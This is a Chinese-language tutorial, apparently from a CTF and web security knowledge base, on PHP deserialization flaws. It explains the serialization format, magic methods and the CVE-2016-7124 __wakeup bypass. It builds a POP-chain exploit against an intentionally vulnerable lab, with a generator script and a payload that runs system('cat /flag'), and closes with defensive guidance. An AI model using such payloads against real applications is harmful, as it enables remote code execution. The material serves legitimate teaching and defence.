

# ⛓️ PHP 反序列化底层魔术方法全矩阵与 POP 链逆向构造实战

> **核心定义**：PHP 序列化（`serialize`）是将运行时的内存对象转化为可持久化存储的文本字符串；反序列化（`unserialize`）则是将字符串重新实例化为对象。
> **漏洞本质**：若反序列化参数用户可控，攻击者可通过精心篡改对象的属性，在对象生命周期的自动回调中劫持程序执行流，把零散的代码片段串联为 **面向属性编程链条（POP 链，Property-Oriented Programming）** 实现任意代码执行（RCE）。

> [!NOTE] 💡 小白通俗扫盲：宜家衣柜与恶意组装说明书
> * **序列化（打包拆卸）**：
>   * 假设你在内存里建了一个功能强大的对象（相当于家里一套巨大的实木衣柜）。现在你要把数据存入数据库或发送给其他服务器，整套衣柜塞不进网络网线；
>   * 序列化就像**把衣柜拆成一块块带编号的木板和螺丝，并附带一份《组装图纸》，打包塞进扁平的纸箱（变成一串文本字符串）**。
> * **反序列化（拆箱复原）**：
>   * 服务器收到这串字符串后，按照《组装图纸》**在内存中重新将衣柜原样组装复原（实例化为活生生的对象）**。
> * **反序列化漏洞与 POP 链的杀机**：
>   * 如果开发者直接信任了用户传上来的“纸箱字符串”，黑客在途中**悄悄修改了图纸里的参数，甚至把零件偷偷调换成了微型遥控炸弹**；
>   * 服务器工人不假思索地按被篡改的图纸组装对象；
>   * 组装完毕、家具落地的瞬间（触发了析构函数 `__destruct()`），机关被踩中，连锁引爆整个系统（执行了 `system('cat /flag')`），直接夺取管理员权限！

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、PHP 序列化底层字符串格式与参数级解构

理解反序列化的第一步是读懂它的字节格式：

```text
O:4:"User":2:{s:8:"username";s:5:"admin";s:8:"password";s:6:"123456";}
```

#### 🔍 标志位与语法参数拆解：
| 标志符 | 语法含义 | 结构组成 | 深入细节 |
| :--- | :--- | :--- | :--- |
| `O` | 对象 (Object) | `O:类名长度:"类名":属性数量:{...}` | 声明反序列化时要实例化的类原型。 |
| `s` | 字符串 (String) | `s:字节长度:"字符串值";` | **注意**：长度计算基于**字节（Bytes）**而非字符数。中文在 UTF-8 下占 3 个字节！ |
| `i` | 整数 (Integer) | `i:数值;` | 如 `i:123;` |
| `b` | 布尔值 (Boolean) | `b:0;` / `b:1;` | `b:1;` 代表 True，`b:0;` 代表 False。 |
| `a` | 数组 (Array) | `a:元素数量:{键;值;键;值...}` | 键和值均支持任意类型嵌套。 |
| `N` | 空值 (NULL) | `N;` | 代表 `null`。 |

### ⚠️ 属性访问修饰符的隐藏字节陷阱（CTF 踩坑高发区）
PHP 中不同可见性的属性，序列化后的内部键名会**隐式注入不可见字符（`%00`，空字节）**：

| 修饰符 | 序列化后的实际键名格式 | 示例（属性名为 `name`） | 长度计算 |
| :--- | :--- | :--- | :--- |
| **`public`** | `name` | `name` | 长度为 4（直接为属性名长度） |
| **`protected`** | `\0*\0name` | `%00*%00name` | 长度为 7（`\0` + `*` + `\0` + `name` = 1+1+1+4 = 7 字节，星号前后各含一个不可见空字节） |
| **`private`** | `\0类名\0name` | `%00User%00name` | 长度为 10（类名与属性名前各含空字节：1+4+1+4 = 10 字节） |

> [!CAUTION]
> **手工编写 Payload 避坑**：
> 如果属性是 `protected` 或 `private`，直接在文本编辑器复制粘贴往往会丢失 `\0` 空字符，导致反序列化失败。
> **正解**：在编写 EXP 脚本时，必须使用双引号转义字符 `"\0*\0name"`（长度为 7），或者在 URL 传参时直接写 `%00*%00name`，或者在 PHP 7.1+ 中直接使用大写 `S` 类型表示支持 16 进制转义：`S:7:"\00*\00name"`。注意长度参数必须准确对应真实字节数（`7`），若少算或多算 1 字节均会导致反序列化解析偏移失败！

---

## 二、八大核心魔术方法触发条件与行为矩阵

魔术方法是串联 POP 链的“跳板关节”：



| 魔术方法 | 触发时机（触发条件） | 常见触发代码场景 | POP 链中的战略作用 |
| :--- | :--- | :--- | :--- |
| **`__wakeup()`** | `unserialize()` 执行时**立即自动触发**。 | 只要调用反序列化即触发。 | 链条最开端的发起点之一。 |
| **`__destruct()`** | 对象生命周期结束被**销毁时触发**。 | 脚本执行结束、变量被覆盖、或 `unset()`。 | **最经典的绝对入口（Entry Point）**。 |
| **`__toString()`** | 对象被当做**字符串处理**时触发。 | `echo $obj`、`$str . $obj`、`md5($obj)`、`preg_match('/.../', $obj)`、`strlen($obj)`。 | 极其灵活的跨类跳板。 |
| **`__get($name)`** | 试图读取对象**不可访问或不存在的属性**时触发。 | `$this->a->some_prop`（当 `a` 没有此属性时）。 | 属性与方法之间的桥梁。 |
| **`__set($name, $val)`**| 试图写入对象不可访问或不存在的属性时触发。 | `$this->a->some_prop = 1`。 | 变量覆盖与二次赋值。 |
| **`__call($name, $args)`** | 试图调用对象**不存在或不可访问的方法**时触发。| `$this->a->func()`（当 `a` 没有 `func` 时）。 | 从属性访问跳跃到方法调用。 |
| **`__invoke()`** | 试图将一个**对象当作函数**调用时触发。 | `$func = $this->a; $func();` | 函数式危险调用的终点。 |

---

## 三、CVE-2016-7124：`__wakeup()` 绕过漏洞

如果类定义了 `__wakeup()`，且在内部对敏感属性进行了重置（如 `$this->is_admin = false;`），如何绕过？

* **漏洞底层成因**：PHP 5 < 5.6.25 及 PHP 7 < 7.0.10 的底层解析器实现中，当序列化字符串中**声明的对象属性个数（数字）严格大于实际包含的属性个数**时，PHP 引擎在反序列化分配内存后，会跳过 `__wakeup()` 的执行，直接进入 `__destruct()`！
* **实操改造**：
  * 原串：`O:4:"User":1:{s:8:"username";s:5:"admin";}`（属性声明为 1）
  * 绕过 Payload：`O:4:"User":2:{s:8:"username";s:5:"admin";}`（属性声明改为 2，大于实际个数）
  * **效果**：`__wakeup()` 被彻底废除，成功保留恶意属性值！

---

## 四、经典实战大题：多类复合 POP 链“倒推构建法”

### 1. 靶场源码审计（4 个类的迷宫）

```php
<?php
class Start {
    public $mod1;
    public function __destruct() {
        // 触发点：调用了 mod1 的不存在方法 test()
        $this->mod1->test();
    }
}

class Step1 {
    public $mod2;
    public function __call($name, $arg) {
        // 触发点：将 mod2 当做字符串进行拼接
        echo "Calling method: " . $this->mod2;
    }
}

class Step2 {
    public $mod3;
    public function __toString() {
        // 触发点：读取 mod3 的未知属性 secret
        return $this->mod3->secret;
    }
}

class End {
    public $action;
    public $arg;
    public function __get($name) {
        // 最终漏洞点 (Sink)：动态函数调用
        $func = $this->action;
        $func($this->arg);
    }
}

unserialize($_GET['payload']);
```

---

### 2. POP 链构造核心思维：从后向前逆向倒推（Sink $\rightarrow$ Entry）

* **第 1 步（定位终点 Sink）**：
  在 `End::__get()` 中看到了 `$func($this->arg);`，若让 `$action = 'system'`，`$arg = 'cat /flag'`，即可执行系统命令！
* **第 2 步（寻找谁能触发 `__get`）**：
  `Step2::__toString()` 内部执行了 `$this->mod3->secret`。只要让 `$mod3` 赋值为 `End` 类的实例，当读取 `secret` 时，`End` 类并没有这个属性，就会自动触发 `End::__get()`！
* **第 3 步（寻找谁能触发 `__toString`）**：
  `Step1::__call()` 内部执行了 `"Calling method: " . $this->mod2`。只要让 `$mod2` 赋值为 `Step2` 类的实例，字符串拼接就会强制把 `Step2` 当作字符串处理，触发 `Step2::__toString()`！
* **第 4 步（寻找谁能触发 `__call`）**：
  `Start::__destruct()` 内部执行了 `$this->mod1->test()`。只要让 `$mod1` 赋值为 `Step1` 类的实例，由于 `Step1` 没有 `test()` 方法，会自动触发 `Step1::__call()`！
* **第 5 步（连接入口）**：
  反序列化结束时，脚本自动销毁 `Start` 对象，触发 `Start::__destruct()`，整条多米诺骨牌瞬间倾倒！

---

### 3. 编写标准自动化 POC 生成脚本

在解 CTF 题目时，**切忌手动拼接字符串**，必须编写专用 PHP 脚本来实例化并序列化对象：

```php
<?php
// 本地 POC 生成脚本 exp.php

class Start { public $mod1; }
class Step1 { public $mod2; }
class Step2 { public $mod3; }
class End {
    public $action = 'system';
    public $arg = 'cat /flag';
}

// 从底层开始逆向实例化组装
$end = new End();
$step2 = new Step2();
$step2->mod3 = $end;

$step1 = new Step1();
$step1->mod2 = $step2;

$start = new Start();
$start->mod1 = $step1;

// 生成最终攻击序列化串并进行 URL 编码
$payload = serialize($start);
echo "Raw Payload: " . $payload . "\n";
echo "URL Encoded: " . urlencode($payload) . "\n";
```

#### 🔍 最终生成的攻击 Payload 及其解构：
```text
O:5:"Start":1:{s:4:"mod1";O:5:"Step1":1:{s:4:"mod2";O:5:"Step2":1:{s:4:"mod3";O:3:"End":2:{s:6:"action";s:6:"system";s:3:"arg";s:9:"cat /flag";}}}}
```
提交此 Payload 后，后端反序列化将精确穿透 4 个类，直接在服务器执行 `system('cat /flag')` 回显 Flag！

---

## 🔗 相关双向链接
- 上级模块：[[07-反序列化漏洞深度专精]]
- 进阶拓展：[[PHP反序列化字符逃逸：增多与减少]]
- 原生利用：[[原生类利用：Error, Exception, SoapClient, SimpleXMLElement]]
- 知识总览：[[00-Web安全与CTF知识地图总览]]

---
## 纵深防御与安全加固基线

> [!IMPORTANT]
> **反序列化防御的根本法则**：不可信的数据绝对不能反序列化！任何进入 `unserialize()` 的数据流都必须被视为潜在的远程代码执行炸弹！

1. **全链路采用标准安全的纯数据交换格式（全面弃用原生序列化）**：
   * 业务系统间的数据交换、Session 存储、缓存对象，全面切换为现代无执行能力的格式（如 JSON）：
   ```php
   // 安全示范：采用 json_encode / json_decode
   $safe_data = json_decode($user_input, true); // 纯键值字典，无对象实例化能力
   ```

2. **强制使用 PHP 7+ 类白名单限制（`allowed_classes`）**：
   * 若遗留系统因历史兼容性必须使用 `unserialize()`，必须显式声明允许反序列化的类白名单，禁止未授权类或内置原生类被自动唤醒：
   ```php
   // 安全示范：严格限定允许实例化的类名单
   $object = unserialize($data, [
       "allowed_classes" => ["App\Models\UserPreferences", "App\Models\CartItem"]
   ]);
   ```

3. **对不可信数据增加服务端数字签名机制（HMAC-SHA256）**：
   * 若序列化数据需要暂存在客户端 Cookie 或 URL 参数中，在服务端必须使用独立私钥进行数字签名校验：
   * 接收端先验证签名是否完全匹配，一旦发现数据被篡改，立即丢弃并记录安全事件，从入口处封死伪造 POP 链的可能。
